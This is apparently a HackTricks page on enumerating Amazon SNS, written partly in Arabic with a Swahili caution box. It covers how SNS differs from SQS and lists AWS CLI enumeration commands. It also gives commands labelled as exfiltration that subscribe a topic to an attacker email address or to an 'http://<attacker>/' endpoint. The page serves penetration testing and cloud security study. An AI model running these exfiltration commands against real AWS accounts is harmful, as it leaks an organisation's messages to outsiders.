 # AWS - SNS Enum

{{#include ../../../banners/hacktricks-training.md}}

## SNS

Amazon Simple Notification Service (Amazon SNS) in وصفها كـ **خدمة رسائل مُدارة بالكامل**. تدعم كل من **التطبيق إلى التطبيق** (A2A) و **التطبيق إلى الشخص** (A2P) أنواع الاتصال.

المميزات الرئيسية لتواصل A2A تشمل **آليات النشر/الاشتراك (pub/sub)**. هذه الآليات تقدم **مواضيع**، وهي ضرورية لتمكين **الرسائل المعتمدة على الدفع، ذات الكثافة العالية، من العديد إلى العديد**. هذه الميزة مفيدة للغاية في السيناريوهات التي تتضمن أنظمة موزعة، خدمات صغيرة، وهياكل خالية من الخادم مدفوعة بالحدث. من خلال الاستفادة من هذه المواضيع، يمكن لأنظمة الناشرين توزيع الرسائل بكفاءة إلى **مجموعة واسعة من أنظمة المشتركين**، مما يسهل نمط الرسائل المتفرعة.

### **Difference with SQS**

**SQS** هي خدمة **مبنية على الطوابير** تسمح بالتواصل من نقطة إلى نقطة، مما يضمن معالجة الرسائل بواسطة **مستهلك واحد**. تقدم **تسليم على الأقل مرة واحدة**، تدعم الطوابير القياسية و FIFO، وتسمح بالاحتفاظ بالرسائل لإعادة المحاولة والمعالجة المتأخرة.\
من ناحية أخرى، **SNS** هي خدمة **مبنية على النشر/الاشتراك**، مما يمكّن **التواصل من واحد إلى العديد** من خلال بث الرسائل إلى **عدة مشتركين** في وقت واحد. تدعم **نقاط الاشتراك المختلفة مثل البريد الإلكتروني، SMS، وظائف Lambda، و HTTP/HTTPS**، وتوفر آليات تصفية لتسليم الرسائل المستهدفة.\
بينما تمكّن كلا الخدمتين من فصل المكونات في الأنظمة الموزعة، تركز SQS على التواصل القائم على الطوابير، بينما تركز SNS على أنماط التواصل المدفوعة بالحدث والمتفرعة.

### **Enumeration**
```bash
# Get topics & subscriptions
aws sns list-topics
aws sns list-subscriptions
aws sns list-subscriptions-by-topic --topic-arn <arn>

# Check privescs & post-exploitation
aws sns publish --region <region> \
--topic-arn "arn:aws:sns:us-west-2:123456789012:my-topic" \
--message file://message.txt

# Exfiltrate through email
## You will receive an email to confirm the subscription
aws sns subscribe --region <region> \
--topic-arn arn:aws:sns:us-west-2:123456789012:my-topic \
--protocol email \
--notification-endpoint my-email@example.com

# Exfiltrate through web server
## You will receive an initial request with a URL in the field "SubscribeURL"
## that you need to access to confirm the subscription
aws sns subscribe --region <region>\
--protocol http \
--notification-endpoint http://<attacker>/ \
--topic-arn <arn>
```
> [!CAUTION]
> Kumbuka kwamba ikiwa **mada ni ya aina ya FIFO**, ni wanachama pekee wanaotumia itifaki **SQS** wanaweza kutumika (HTTP au HTTPS haiwezi kutumika).
>
> Pia, hata kama `--topic-arn` ina eneo hakikisha unataja eneo sahihi katika **`--region`** au utapata kosa ambalo linaonekana kuashiria kwamba huna ufikiaji lakini tatizo ni eneo.

#### Unauthenticated Access

{{#ref}}
../aws-unauthenticated-enum-access/aws-sns-unauthenticated-enum.md
{{#endref}}

#### Privilege Escalation

{{#ref}}
../aws-privilege-escalation/aws-sns-privesc.md
{{#endref}}

#### Post Exploitation

{{#ref}}
../aws-post-exploitation/aws-sns-post-exploitation.md
{{#endref}}

#### Persistence

{{#ref}}
../aws-persistence/aws-sns-persistence.md
{{#endref}}

## References

- [https://aws.amazon.com/about-aws/whats-new/2022/01/amazon-sns-attribute-based-access-controls/](https://aws.amazon.com/about-aws/whats-new/2022/01/amazon-sns-attribute-based-access-controls/)

{{#include ../../../banners/hacktricks-training.md}}
